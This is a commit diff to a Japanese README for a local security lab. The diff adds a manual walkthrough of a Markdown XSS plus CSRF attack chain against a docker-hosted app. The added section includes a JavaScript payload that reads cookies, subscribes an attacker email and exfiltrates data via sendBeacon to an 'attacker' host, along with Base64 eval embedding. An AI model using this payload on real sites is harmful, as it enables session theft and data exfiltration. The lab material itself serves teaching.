

Before and after one commit to kumama-nui/security-labs, a Markdown page: markdown-xss-cookie-lab/README.md, the part around the change. Shown at 96% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
document manual markdown xss solution

````diff
--- a/markdown-xss-cookie-lab/README.md
+++ b/markdown-xss-cookie-lab/README.md
@@ -36,6 +36,50 @@ http://localhost:4000/lab?webhook=<URLエンコードしたWebhook URL>
 
 ```text
 flag=FLAG{local_markdown_xss_cookie_lab}
+```
+
+## 手動解法
+
+ブラウザだけで解く場合は、次の手順で攻撃チェーンを手で追えます。
+
+1. `docker compose up --build` で起動する
+2. `http://localhost:3000/report` を開く
+3. `url` に `http://localhost:4000/lab` を入力して送信する
+4. bot のレスポンスに `"foundLink":true` と `"clicked":true` が出るまで待つ
+5. `http://localhost:4000/loot` を開く
+6. `flag=FLAG{local_markdown_xss_cookie_lab}` が表示されれば成功
+
+`/lab` は、admin bot のブラウザで読み込まれる CSRF ページです。ページロード時に次の内容を `app` へ自動 POST します。
+
+```text
+POST http://app:3000/help/search
+query=test
+greeting=[open details](javascript:<payload>)
+```
+
+`greeting` は `/help/search` で Markdown として表示されます。脆弱版では Markdown リンク URL のスキーム検証が不足しているため、`javascript:` がそのままリンクになります。admin bot は `.assistant-message a` の最初のリンクを通常クリックするので、リンク内の JavaScript が admin セッションの `app` オリジンで実行されます。
+
+payload が行うことは次の 4 つだけです。
+
+```js
+const flagCookie = document.cookie
+  .split("; ")
+  .find((part) => part.startsWith("flag=")) || "";
+const flag = flagCookie.startsWith("flag=") ? flagCookie.slice("flag=".length) : "";
+const me = await fetch("/api/me", { credentials: "same-origin" }).then((r) => r.json());
+await fetch("/api/conversations/latest/subscribers", {
+  method: "POST",
+  credentials: "same-origin",
+  headers: { "content-type": "application/json" },
+  body: JSON.stringify({ email: "attacker@example.test" })
+});
+navigator.sendBeacon("http://attacker:4000/collect", JSON.stringify({ cookie: flagCookie, flag, me }));
+```
+
+実際の `/lab` では、Markdown の括弧や引用符で壊れにくくするため、この JavaScript を Base64 にして `javascript:eval(atob("..."))` 形式で埋め込んでいます。送信先を外部 Webhook にしたい場合は、報告 URL を次の形にします。
+
+```text
+http://localhost:4000/lab?webhook=<URLエンコードしたWebhook URL>
 ```
 
 ## 脆弱性の要点
````
